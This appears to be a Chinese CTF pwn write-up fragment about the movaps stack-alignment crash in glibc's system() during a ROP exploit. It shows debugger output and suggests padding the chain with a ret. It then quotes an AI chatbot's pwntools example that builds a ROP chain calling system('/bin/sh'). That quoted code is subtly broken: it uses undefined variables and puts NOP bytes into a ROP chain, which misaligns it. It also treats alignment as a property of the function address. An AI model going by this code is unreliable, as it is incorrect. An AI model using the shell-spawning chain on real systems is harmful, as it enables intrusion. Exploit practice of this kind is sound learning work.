通过调试可以发现,本地不通确实是因为调用了`xmm`寄存器

```shell
─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
   0x7faee5924967 <do_system+103>    mov    qword ptr [rsp + 188h], 0
 ► 0x7faee5924973 <do_system+115>    movaps xmmword ptr [rsp], xmm1
   0x7faee5924977 <do_system+119>    lock cmpxchg dword ptr [rip + 1cae01h], edx
   0x7faee592497f <do_system+127>    jne    7faee5924c30h                 <do_system+816>
```

我们需要让`system`的地址正好落在`16`字节的栈边界,从根本(原理)上改变是很困难的,但是可以通过填充`rop`比如`nop,ret`来填充需要的字节.

解决办法:在`system`函数地址前加一个或多个`ret`尝试打通本地

参考通义千问回答的代码:

>在使用pwntools编写exploit脚本时，确实可以通过ROP（Return-Oriented Programming）技术来实现对齐。如果你知道目标地址必须是对齐的，例如16字节对齐，那么在构造ROP链的过程中，可以插入适当的NOP sled或者找到内存中一个合适的返回指令片段，确保payload中的关键地址（比如system函数的地址或其所在plt/got表项的地址）在其之前填充足够的字节以达到对齐要求。
>
>例如，在ropchain构建过程中：
>
>```python
>from pwn import *
>
># 假设已经得到了elf、libc等上下文信息
>
>context.arch = 'amd64'  # 设置架构为x86_64
>
># ... 省略其他代码，如连接到远程服务器、获取shellcode等
>
># 找到system gadget和其他需要使用的gadgets
>pop_rdi = elf.gadgets['pop rdi; ret']  # 用于放置参数
>syscall = elf.plt['syscall']  # 或者直接用系统调用号对应的gadget
>
># 确保system地址是16字节对齐的
>system_addr = next((addr for addr in gadgets if addr % 16 == 0 and gadgets[addr].endswith('ret')), None)
>if not system_addr:
># 如果没有找到对齐的system gadget，可能需要创建一个填充的ROP链
>padding = b'\x90' * (16 - (next_gadget_address % 16))  # 使用NOP sled填充
>rop += padding
>system_addr = next_gadget_address + len(padding)
>
>rop += p64(pop_rdi)  # 将"/bin/sh"字符串地址放入rdi
>rop += p64(binary.search('/bin/sh'))  # "/bin/sh"的地址
>rop += p64(system_addr)  # 调用system gadget
>
># 发送ROP链
>payload = b'A'*overflow_size + rop
>io.send(payload)
>```
>
>请注意上述代码仅为示例，实际利用中需要根据具体环境和栈布局来调整。在实际场景中，如果是因为system()函数内部实现要求xmm寄存器对齐，则通常会检查并保证栈上相关数据的对齐，而不仅仅是system函数本身的地址对齐。在这种情况下，你可能需要更深入地分析程序行为，并且可能需要结合额外的技术手段（如寻找特定类型的gadget）来构造满足条件的ROP链。
